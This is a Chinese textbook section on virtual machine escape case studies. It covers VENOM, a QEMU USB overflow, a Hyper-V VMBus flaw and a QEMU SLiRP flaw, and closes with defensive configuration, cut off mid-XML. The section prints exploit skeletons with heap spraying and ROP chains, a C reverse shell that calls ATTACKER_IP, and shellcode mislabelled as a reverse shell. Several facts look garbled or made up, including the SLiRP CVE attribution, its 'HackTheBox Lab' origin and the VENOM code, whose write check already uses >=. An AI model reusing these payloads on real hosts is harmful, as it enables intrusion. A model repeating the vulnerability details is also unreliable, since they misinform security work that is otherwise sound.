





## 31.8 虚拟机逃逸案例

虚拟机逃逸（VM Escape）是指攻击者从虚拟机（Guest）内部突破隔离边界，获得宿主机（Host）控制权的安全漏洞。在云计算、容器化和多租户架构普及的今天，虚拟机逃逸是危害等级最高的漏洞类型之一——它直接瓦解了虚拟化技术所依赖的安全隔离假设。

本节通过分析 CVE-2015-3456（VENOM）、CVE-2020-14364（USB 溢出）、CVE-2021-28476（Hyper-V VMBus）和 CVE-2019-8934（SLiRP）四个真实案例，揭示虚拟机逃逸的攻击原理、利用技巧与防御策略。

### 虚拟机逃逸攻击面全景



虚拟机逃逸的核心攻击面集中在以下三个层面：

| 攻击面 | 典型组件 | 漏洞类型 | 代表 CVE |
|--------|----------|----------|----------|
| **设备模拟** | FDC、USB 控制器、网卡模拟、GPU 直通 | 缓冲区溢出、整数溢出、UAF | CVE-2015-3456、CVE-2020-14364、CVE-2015-5165 |
| **半虚拟化通道** | VirtIO、VMBus、Guest Addition | 逻辑漏洞、越界映射、类型混淆 | CVE-2021-28476、CVE-2019-8934 |
| **CPU 侧信道** | 分支预测、缓存、TLB | 推测执行攻击 | CVE-2017-5715（Spectre）、CVE-2017-5754（Meltdown） |

**为什么设备模拟是最常见的攻击面？** 原因有三：（1）设备模拟代码量巨大，QEMU 代码库超过 150 万行，攻击面远超 Hypervisor 核心；（2）遗留设备（如软驱控制器）的代码质量参差不齐，长期缺乏安全审计；（3）设备模拟运行在 VMM 进程的特权上下文中，一旦溢出即可控制整个 VMM 进程。

---

### 31.8.1 CVE-2015-3456 — VENOM（软驱控制器溢出）

#### 漏洞概述

VENOM（Virtualized Environment Neglected Operations Manipulation）于 2015 年 5 月由 Red Hat 安全研究员 Jason Geffner 发现并披露。该漏洞存在于 QEMU 的虚拟软驱控制器（FDC）实现中，是一个经典的栈缓冲区溢出漏洞。

| 属性 | 详情 |
|------|------|
| CVE 编号 | CVE-2015-3456 |
| CVSS 评分 | 8.2（高危） |
| 漏洞类型 | 栈缓冲区溢出 |
| 影响组件 | QEMU 虚拟软驱控制器（hw/block/fdc.c） |
| 影响版本 | QEMU 1.0.0 至 2.3.x |
| 影响平台 | 所有使用 QEMU 的虚拟化产品（KVM、Xen、Oracle VirtualBox 等） |
| 披露时间 | 2015 年 5 月 13 日 |

#### 根因分析

QEMU 的 FDC 实现维护了一个 512 字节（`FD_SECTOR_LEN = SECTOR_SIZE = 512`）的 FIFO 缓冲区，用于在 Guest 和 Host 之间传递软盘数据。漏洞出在 `fdctrl_read_data()` 和 `fdctrl_write_data()` 函数的边界检查逻辑中：

```c
/* QEMU fdc.c 漏洞代码（简化自实际源码） */

#define FD_SECTOR_LEN 512  /* FIFO 缓冲区大小 */

static uint32_t fdctrl_read_data(FDCtrl *fdctrl)
{
    uint32_t retval = 0;

    /* 漏洞：使用 > 而非 >= */
    /* 当 data_pos == 512 时，检查通过，越界读取一个字节 */
    if (fdctrl->data_pos > FD_SECTOR_LEN) {
        return 0;
    }

    retval = fdctrl->fifo[fdctrl->data_pos];
    fdctrl->data_pos++;

    return retval;
}

static void fdctrl_write_data(FDCtrl *fdctrl, uint32_t value)
{
    /* 同样的漏洞模式 */
    if (fdctrl->data_pos >= FD_SECTOR_LEN) {
        fdctrl->data_pos = 0;
    }

    fdctrl->fifo[fdctrl->data_pos] = value;
    fdctrl->data_pos++;
    /* 当 data_pos 从 511 递增到 512 时，写入 fifo[512] 越界 */
}
```

**关键差异：** 正确的检查应为 `if (fdctrl->data_pos >= FD_SECTOR_LEN)`，确保索引值严格小于缓冲区长度。实际代码使用 `>` 导致边界条件差一（Off-by-One），允许在 `data_pos` 恰好等于 512 时多访问一个字节。

#### 利用链构建



**利用步骤详解：**

**步骤一：获得 Guest 内部代码执行权限**
攻击者需要先在 Guest 中运行任意代码。在 CTF 比赛中通常直接提供 shell；在真实场景中可通过 Guest 内核漏洞、服务漏洞或恶意驱动实现。

**步骤二：枚举 QEMU 进程的内存布局**
通过读取 `/proc/<qemu_pid>/maps`（如果 QEMU 以共享进程模式运行）或利用信息泄露漏洞获取：

```python
# 从 Guest 通过 virtio-9p 共享目录读取 Host 信息
# 或通过其他侧信道泄露 QEMU 进程 ASLR 基址

import struct

def parse_qemu_maps(maps_content):
    """解析 QEMU 进程内存映射"""
    mappings = []
    for line in maps_content.splitlines():
        parts = line.split()
        if len(parts) >= 6:
            addr_range = parts[0].split('-')
            base = int(addr_range[0], 16)
            end = int(addr_range[1], 16)
            perms = parts[1]
            name = parts[5] if len(parts) > 5 else ''
            mappings.append({
                'base': base, 'end': end,
                'perms': perms, 'name': name
            })
    return mappings

def find_libc_base(mappings):
    """定位 libc 基址用于 ROP"""
    for m in mappings:
        if 'libc' in m['name'] and 'r-xp' in m['perms']:
            return m['base']
    return None
```

**步骤三：构造 ROP 链绕过 DEP**
由于 VENOM 仅溢出一个字节（通常是栈帧中的最低有效字节），攻击者可以修改返回地址的低 8 位，将其重定向到附近的代码 gadgets：

```python
def build_venom_rop(original_ret_addr, target_addr):
    """
    VENOM 单字节溢出利用
    只修改返回地址的低 8 位
    """
    # 原始返回地址: 0x7fff????????  (? = ASLR 随机)
    # 目标地址:     0x7fff????????
    # 两者在同一 4KB 页内，仅低字节不同

    original_low = original_ret_addr & 0xFF
    target_low = target_addr & 0xFF

    if (original_ret_addr >> 8) != (target_addr >> 8):
        raise ValueError("地址高位不同，单字节溢出无法到达")

    # 单字节覆盖
    overwrite_byte = struct.pack('B', target_low)
    print(f"[*] 覆盖字节: 0x{original_low:02x} -> 0x{target_low:02x}")
    print(f"[*] 地址空间偏移: {target_addr - original_ret_addr}")

    return overwrite_byte
```

**步骤四：逃逸后执行**

```c
/* 逃逸后在 Host 上执行的 payload */
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

void post_escape_payload() {
    /* 1. 建立反向连接 */
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in addr = {
        .sin_family = AF_INET,
        .sin_port = htons(4444),
        .sin_addr.s_addr = inet_addr("ATTACKER_IP")
    };
    connect(sock, (struct sockaddr*)&addr, sizeof(addr));

    /* 2. 重定向标准 I/O */
    dup2(sock, 0);  // stdin
    dup2(sock, 1);  // stdout
    dup2(sock, 2);  // stderr

    /* 3. 启动 shell */
    char *argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}
```

#### 利用难点与绕过技术

| 挑战 | 难度 | 绕过方法 |
|------|------|----------|
| **ASLR** | 中 | 利用信息泄露获取 QEMU 进程基址；VENOM 的单字节溢出可在同一页内重定向 |
| **Stack Canary** | 高 | 如果 FIFO 溢出恰好覆盖 canary，需要泄露 canary 值或利用非栈溢出路径 |
| **NX/DEP** | 高 | 使用 ROP 链替代直接 shellcode 执行 |
| **SELinux** | 中 | 利用 QEMU 进程自身的权限执行操作 |

#### 修复方案

补丁的核心修复极其简洁——将边界检查从 `>` 改为 `>=`：

```diff
--- a/hw/block/fdc.c
+++ b/hw/block/fdc.c
@@ -xxx,xx +xxx,xx @@
 static uint32_t fdctrl_read_data(FDCtrl *fdctrl)
 {
-    if (fdctrl->data_pos > FD_SECTOR_LEN) {
+    if (fdctrl->data_pos >= FD_SECTOR_LEN) {
         return 0;
     }
```

同时对 `fdctrl_write_data()` 增加了相同的边界修正。这个修复在 QEMU 2.3.1 版本中发布。

---

### 31.8.2 CVE-2020-14364 — QEMU USB 设备模拟堆溢出

#### 漏洞概述

| 属性 | 详情 |
|------|------|
| CVE 编号 | CVE-2020-14364 |
| CVSS 评分 | 7.2（高危） |
| 漏洞类型 | 堆缓冲区溢出 |
| 影响组件 | QEMU USB 核心（hw/usb/core.c） |
| 影响版本 | QEMU 2.0 至 5.0.0（含） |
| 披露时间 | 2020 年 6 月 |

#### 根因分析

QEMU 的 USB 设备模拟使用 `USBPacket` 结构体处理 USB 数据传输。在 USB 控制传输（Control Transfer）的处理流程中，`usb_handle_packet()` 函数对 `wLength` 字段的验证存在缺陷：

```c
/* QEMU hw/usb/core.c 漏洞代码（简化） */

#define USB_MAX_SETUP_SIZE 8

typedef struct USBPacket {
    USBEndpoint *ep;
    uint8_t buffer[128];    /* 内部缓冲区 */
    uint32_t len;
    uint32_t actual_length;
    USBPacketState state;
    /* ... */
} USBPacket;

/* 漏洞：wLength 没有与实际缓冲区大小比较 */
static int usb_handle_setup(USBPacket *p, uint8_t *data, int len)
{
    USBSetup *setup = (USBSetup *)data;

    /* setup->wLength 来自 Guest 控制的 USB 数据包 */
    uint16_t wLength = le16_to_cpu(setup->wLength);

    /* 问题：仅检查 wLength 是否超过 USB 规范限制 */
    /* 但未检查是否超过 USBPacket 的内部缓冲区大小 */
    if (wLength > p->ep->max_packet_size * 2) {
        /* 这个检查可以被绕过 */
    }

    /* 当 wLength > sizeof(p->buffer) 时，后续 memcpy 溢出 */
    memcpy(p->buffer, data, wLength);
    /* 或在更深层的处理中溢出 */
    return 0;
}
```

**核心问题：** `USBPacket` 的内部缓冲区固定为 128 字节，但 Guest 可以通过构造 `wLength = 0xFFFF` 的 USB 控制请求，使 Host 侧在复制数据时超出缓冲区边界。

#### 攻击路径分析



#### 利用技术详解

**步骤一：堆喷射（Heap Spraying）**

在触发溢出之前，需要在堆上布局大量受控数据，使溢出覆盖到可预测的目标：

```python
class USBExploit:
    """CVE-2020-14364 堆利用框架"""

    def __init__(self, qemu_pid):
        self.qemu_pid = qemu_pid
        self.overflow_size = 0x1000  # 溢出长度

    def spray_heap(self):
        """
        通过大量 USB 请求填充堆
        创建可预测的堆布局
        """
        # 分配大量 USB 请求结构
        # 使堆上出现规律性的 块-间隙-块 布局
        requests = []
        for i in range(256):
            req = self.allocate_usb_request(size=0x80)
            requests.append(req)

        # 释放部分请求创建 "holes"
        for i in range(0, 256, 4):
            self.free_usb_request(requests[i])

        return requests

    def craft_overflow_packet(self):
        """构造触发溢出的 USB 数据包"""
        packet = bytearray(64)

        # USBSetup 结构
        packet[0] = 0x80    # bmRequestType: Device-to-Host
        packet[1] = 0x06    # bRequest: GET_DESCRIPTOR
        packet[2] = 0x00    # wValue (low)
        packet[3] = 0x01    # wValue (high): Device Descriptor
        packet[4] = 0x00    # wIndex (low)
        packet[5] = 0x00    # wIndex (high)

        # wLength: 填入超大值
        packet[6] = 0xFF    # wLength (low)
        packet[7] = 0xFF    # wLength (high) = 65535

        # 填充溢出数据
        overflow_payload = self.build_rop_chain()
        packet.extend(overflow_payload)

        return packet

    def build_rop_chain(self):
        """
        构造 ROP 链
        利用 libc 中的 gadgets
        """
        rop = bytearray()

        # gadget 1: pop rdi; ret
        rop.extend(struct.pack('<Q', self.libc_base + 0x2155f))
        # /bin/sh 字符串地址
        rop.extend(struct.pack('<Q', self.string_binsh))
        # gadget 2: pop rsi; ret
        rop.extend(struct.pack('<Q', self.libc_base + 0x23e6a))
        rop.extend(struct.pack('<Q', 0))
        # system() 地址
        rop.extend(struct.pack('<Q', self.libc_base + 0x4f550))

        return rop
```

**步骤二：利用堆元数据控制执行流**

QEMU 5.0.0 及以下版本未使用 `tcache` 安全增强（或使用的 glibc 版本较旧），堆块的 `fd` 指针可被溢出数据覆盖。攻击者通过以下方式劫持控制流：

```python
def exploit_heap_metadata(self, overflow_data):
    """
    利用堆溢出覆写相邻块的元数据

    堆布局:
    ┌─────────────────┐
    │  chunk header    │  <- 被溢出覆盖
    │  fd pointer      │  <- 覆写为 GOT 地址
    ├─────────────────┤
    │  next chunk data │
    └─────────────────┘
    """
    # 1. 覆写 fd 指针指向目标地址（如 free_hook）
    overflow_data[0:8] = struct.pack('<Q', self.free_hook_addr)

    # 2. 触发 free() 调用
    # free_hook 被指向 system 地址
    # 后续 free("sh") 触发 system("sh")

    print(f"[*] free_hook 地址: {self.free_hook_addr:#x}")
    print(f"[*] system 地址: {self.system_addr:#x}")
```

**步骤三：反向 Shell**

```python
def spawn_reverse_shell(self):
    """在 Host 上建立反向连接"""
    shellcode = (
        "\x48\x31\xf6"          # xor rsi, rsi
        "\x56"                  # push rsi
        "\x48\xbf\x2f\x62\x69"  # mov rdi, "/bi"
        "\x6e\x2f\x2f\x73\x68"  # n//sh
        "\x57"                  # push rdi
        "\x54\x5f"              # push rsp; pop rdi
        "\x6a\x3b"              # push 0x3b (execve)
        "\x58"                  # pop rax
        "\x99"                  # cdq (zero rdx)
        "\x0f\x05"              # syscall
    )
    return shellcode
```

---

### 31.8.3 CVE-2021-28476 — Hyper-V VMBus 越界映射

#### 漏洞概述

| 属性 | 详情 |
|------|------|
| CVE 编号 | CVE-2021-28476 |
| CVSS 评分 | 9.8（严重） |
| 漏洞类型 | 整数溢出 + 越界内存映射 |
| 影响组件 | Hyper-V VMBus GPADL 处理 |
| 影响版本 | Windows Server 2016/2019/2022 |
| 披露时间 | 2021 年 5 月（补丁星期二） |

这是本节中危害等级最高的漏洞。与 QEMU 设备模拟溢出不同，Hyper-V 的 VMBus 是半虚拟化（Paravirtualization）通信机制，漏洞直接导致 Guest 可映射 Host 的物理内存——等价于直接读写 Host 内存，无需 ROP 或 shellcode。

#### VMBus 与 GPADL 机制

VMBus 是 Hyper-V 中 Guest 和 Host 之间的通信通道，基于共享内存（Shared Memory）实现。GPADL（Guest Physical Address Descriptor List）是 VMBus 中用于建立共享内存区域的核心数据结构。



**GPADL 消息结构：**

```c
/* Hyper-V VMBus GPADL 消息头 */
typedef struct _vmbus_gpadl_header {
    uint32_t msg_type;         /* VMBUS_MSG_GPADL_HEADER = 8 */
    uint32_t pad;
    uint64_t msg_id;
    uint32_t gpadl_handle;     /* 共享内存句柄 */
    uint32_t range_buflen;     /* 单个 range 的字节长度 */
    uint32_t rangecount;       /* range 数量（漏洞点） */
    /* 可变长度的 gpa_range 数组紧跟其后 */
} vmbus_gpadl_header;

typedef struct _gpa_range {
    uint32_t byte_count;       /* range 大小 */
    uint32_t byte_offset;      /* range 偏移 */
    uint64_t pfn_array[1];     /* 物理帧号数组（可变） */
} gpa_range;
```

#### 根因分析

漏洞的核心是 **整数溢出**：

```c
/* Host 侧的 GPADL 处理代码（漏洞逻辑） */

void handle_gpadl_header(vmbus_gpadl_header *hdr) {
    /* 步骤 1：计算需要分配的内存大小 */
    uint32_t alloc_size = sizeof(uint64_t) * hdr->rangecount;

    /* 漏洞：当 rangecount = 0x40000000 时 */
    /* alloc_size = 0x40000000 * 8 = 0x200000000  */
    /* 但 uint32_t 最大值为 0xFFFFFFFF */
    /* 实际 alloc_size = 0x00000000（整数溢出！） */

    /* 步骤 2：分配 0 字节内存（或极小的 chunk） */
    void *pfn_buffer = malloc(alloc_size);

    /* 步骤 3：等待 GPADL_BODY 填充 PFN 数据 */
    /* Guest 发送的 PFN 数据量远超分配的缓冲区 */
    /* 直接覆写 Host 的堆内存 */
    receive_pfn_data(pfn_buffer, hdr->rangecount);

    /* 步骤 4：将被污染的 PFN 数据映射到 Guest */
    /* Guest 现在可以读写 Host 物理内存 */
    map_to_guest(pfn_buffer, hdr->rangecount);
}
```

#### 利用流程



**关键步骤详解：**

```python
class HyperVExploit:
    """CVE-2021-28476 概念验证"""

    VMBUS_MSG_GPADL_HEADER = 8
    VMBUS_MSG_GPADL_BODY   = 9

    def craft_gpdl_header(self):
        """构造触发整数溢出的 GPADL 消息"""
        import struct

        # GPADL_HEADER
        header = struct.pack('<I', self.VMBUS_MSG_GPADL_HEADER)  # msg_type
        header += struct.pack('<I', 0)                            # pad
        header += struct.pack('<Q', 0x4141414141414141)           # msg_id
        header += struct.pack('<I', 0x1000)                       # gpadl_handle
        header += struct.pack('<I', 0x1000)                       # range_buflen

        # 关键：rangecount 触发整数溢出
        # 0x40000000 * 8 = 0x200000000 → 溢出为 0
        header += struct.pack('<I', 0x40000000)                   # rangecount

        print(f"[*] rangecount: {0x40000000}")
        print(f"[*] 计算分配大小: {0x40000000 * 8:#x}")
        print(f"[*] uint32_t 截断后: {(0x40000000 * 8) & 0xFFFFFFFF:#x}")
        print(f"[*] 实际分配: 0 字节（整数溢出）")

        return header

    def build_pfn_body(self, target_phys_addr, count=1024):
        """
        构造 GPADL_BODY
        填充恶意的物理帧号（PFN）
        使其指向 Host 物理内存
        """
        body = struct.pack('<I', self.VMBUS_MSG_GPADL_BODY)
        body += struct.pack('<I', 0)  # pad

        # PFN 数组：每个 PFN 指向一个 Host 物理页
        for i in range(count):
            pfn = (target_phys_addr + i * 0x1000) >> 12
            body += struct.pack('<Q', pfn)

        print(f"[*] PFN 数组大小: {len(body)} 字节")
        print(f"[*] 覆盖范围: {target_phys_addr:#x} - {target_phys_addr + count * 0x1000:#x}")

        return body

    def read_host_memory(self, gpadl_handle, offset, size):
        """通过恶意 GPADL 读取 Host 物理内存"""
        # 发送完成 GPADL 后，通过 VMBus 通道读取映射的内存
        # 此时 Guest 可以读取 Host 的任意物理内存
        pass
```

**为什么这个漏洞的危害是"致命"的？**

与 VENOM 和 USB 溢出不同，Hyper-V VMBus 漏洞不需要绕过 ASLR、DEP 或 Stack Canary。一旦成功映射，攻击者直接拥有 Host 物理内存的读写能力，可以：

1. **读取 Host 密码和凭据** — 扫描 Host 内存中的明文密码、密钥、令牌
2. **修改 Host 内核代码** — 在内核代码段注入后门，获得持久化控制
3. **跨租户攻击** — 在云环境中访问同一 Host 上其他租户的虚拟机内存
4. **绕过所有安全机制** — 直接修改内核数据结构，关闭 SMEP、SMAP、KASLR

---

### 31.8.4 CVE-2019-8934 — QEMU SLiRP 网络模拟 UAF

#### 漏洞概述

| 属性 | 详情 |
|------|------|
| CVE 编号 | CVE-2019-8934 |
| CVSS 评分 | 7.5（高危） |
| 漏洞类型 | Use-After-Free（UAF） |
| 影响组件 | QEMU SLiRP 网络模拟（net/slirp/） |
| 影响版本 | QEMU 全版本（SLiRP 默认启用） |
| 披露时间 | 2019 年 2 月（HTB 最佳挑战） |

SLiRP 是 QEMU 默认使用的用户态网络（User-mode Networking）栈，为 Guest 提供 NAT 网络访问。该漏洞在 HackTheBox 平台的 "Lab" 机器中作为 CTF 挑战出现，是研究虚拟机逃逸的经典教学案例。

#### 根因分析

SLiRP 在处理 TCP 状态机时存在 UAF 漏洞。当 Guest 发送特定序列的 TCP 包时，SLiRP 会在释放连接对象后仍引用该对象：

```c
/* SLiRP TCP 状态机漏洞（简化） */

typedef struct SlirpSocket {
    int fd;
    int state;        /* TCP 状态 */
    uint8_t *buffer;
    int buffer_len;
    /* ... */
} SlirpSocket;

/* 漏洞：在处理 RST 包后释放 socket，但仍通过指针访问 */
void tcp_handle_packet(SlirpSocket *so, struct tcpiphdr *ti) {
    switch (so->state) {
        case TCPS_ESTABLISHED:
            if (ti->th_flags & TH_RST) {
                /* 释放 socket 对象 */
                tcp_close(so);  /* free(so) 在内部调用 */
                /* 漏洞：释放后未将 so 置 NULL */
                /* 后续代码可能继续使用 so 指针 */
            }
            break;
    }

    /* so 此时可能已经被释放 */
    so->buffer[0] = 0x41;  /* UAF: use after free! */
}
```

#### 利用思路

```python
class SLiRPExploit:
    """
    CVE-2019-8934 利用框架
    通过精心构造的 TCP 数据包触发 UAF
    """

    def trigger_uaf(self):
        """
        利用步骤：
        1. 建立正常的 TCP 连接（三次握手）
        2. 发送 RST 包触发 socket 释放
        3. 快速喷射新的对象到被释放的内存位置
        4. 被释放的指针引用到喷射的数据
        5. 控制执行流
        """

        # 步骤 1: TCP 三次握手
        self.send_tcp_packet(flags='SYN')
        self.expect_tcp_packet(flags='SYN-ACK')
        self.send_tcp_packet(flags='ACK')

        # 步骤 2: 发送 RST 触发释放
        self.send_tcp_packet(flags='RST')

        # 步骤 3: 堆喷射 —— 在 freed chunk 位置分配新对象
        for i in range(128):
            self.send_udp_packet(payload=self.controlled_data)

        # 步骤 4: 读取被 UAF 引用的数据
        # 验证控制是否成功
```

---

### 31.8.5 漏洞对比与总结

| 维度 | CVE-2015-3456 VENOM | CVE-2020-14364 USB | CVE-2021-28476 VMBus | CVE-2019-8934 SLiRP |
|------|---------------------|--------------------|-----------------------|---------------------|
| **漏洞类型** | Off-by-One 栈溢出 | 堆缓冲区溢出 | 整数溢出 + 越界映射 | Use-After-Free |
| **攻击面** | 软驱控制器 | USB 设备 | 半虚拟化通道 | 网络模拟 |
| **溢出大小** | 1 字节 | 可控（数千字节） | 理论无限（内存写入） | N/A（对象重用） |
| **利用难度** | 高（单字节限制） | 中（堆布局可控） | 低（无绕过需求） | 中高（时序竞争） |
| **防御绕过** | 需绕过 ASLR + DEP | 需绕过 ASLR + 堆保护 | 无需绕过 | 需精确时序控制 |
| **危害程度** | 获得 Host shell | 获得 Host shell | 任意 Host 内存读写 | 获得 Host shell |
| **CVSS 评分** | 8.2 | 7.2 | 9.8 | 7.5 |


---

### 31.8.6 虚拟机逃逸防御策略

#### 第一层：减少攻击面

```bash
# QEMU 最小化攻击面配置
qemu-system-x86_64 \
  -machine q35,accel=kvm \          # 使用 KVM 加速
  -cpu host \                        # 透传 CPU 特性
  -m 4096 \
  -drive file=disk.qcow2,format=qcow2 \
  -netdev user,id=net0 \             # 仅启用必要网络
  -device virtio-net-pci,netdev=net0 \
  -nographic \                       # 无图形输出减少攻击面
  # 禁用不必要的设备
  # -no-floppy \                      # 禁用软驱（防 VENOM）
  # 不挂载 USB 设备防 USB 溢出
  # 不使用 virtio-9p 防信息泄露
  -monitor none \                    # 禁用 monitor
  -serial none \                     # 禁用串口
  -parallel none                     # 禁用并口
```

```bash
# 基于 Libvirt 的安全配置
virsh edit <vm-name>
```

```xml
<!-- libvirt 安全配置示例 -->
<domain>
  <features>
    <vmport state='off'/>  <!-- 禁用 Guest->Host 通信 -->
  </features>
  <seclabel type='dynamic' model='selinux'/>
  <memoryBacking>
    <locked/>
